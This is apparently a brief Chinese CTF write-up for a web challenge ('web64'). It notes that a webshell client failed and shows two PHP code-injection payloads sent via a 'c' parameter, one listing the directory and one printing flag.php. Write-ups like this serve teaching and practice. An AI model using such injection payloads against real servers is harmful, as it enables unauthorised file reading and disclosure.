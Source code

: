 #### web64

蚁剑尝试失败

构建命令，查看flag位置

```
c=print_r(scandir(dirname(__FILE__)));
```

![image-20240122123035077](照片/image-20240122123035077.png)

构建命令，查看flag

```
c=highlight_file("flag.php");
```

得到flag
